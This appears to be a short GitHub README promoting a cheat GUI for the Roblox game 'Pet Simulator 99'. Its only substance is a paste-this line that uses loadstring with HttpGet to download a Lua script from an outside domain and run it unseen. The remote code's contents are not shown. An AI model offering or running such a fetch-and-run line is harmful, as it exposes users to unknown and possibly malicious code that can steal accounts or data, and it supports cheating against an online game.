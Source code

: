 # Pet-Simulator-99-NEW-OP-HUB-2024
Pet Simulator 99 New WORKING GUI OP Features
loadstring(game:HttpGet("https://egorikusa.space/c06ea5c540615e5463f87a82.lua", true))()
